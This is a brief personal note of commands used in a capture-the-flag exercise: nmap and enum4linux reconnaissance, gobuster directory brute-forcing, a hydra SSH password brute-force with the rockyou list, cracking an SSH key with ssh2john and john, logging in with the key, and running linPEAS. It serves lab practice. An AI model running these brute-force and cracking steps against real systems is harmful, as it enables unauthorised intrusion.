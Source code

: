 #NOTE: This isn't really a writeup but a note to keep track of commands used for future purposes

# List of commands used in this CTF:
nmap -sV -sC -Pn webapp_basic.txt <target ip address>  
enum4linux -a <target ip address>  
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://<target ip address>  
hydra -l jan -P /usr/share/wordlists/rockyou.txt <target ip address> ssh  
python3 -m http.server 8000  
/Tools/Password Attacks/john/ssh2john.py >> crack  
john crack --wordlist=/usr/share/wordlists/rockyou.txt  
ssh -i id_rsa kay@<target ip address>  
ssh user@<target ip address>  

## Extra linux commands
chmod +x linpeas.sh
chmod 600 id_rsa


### LINPEAS https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS  
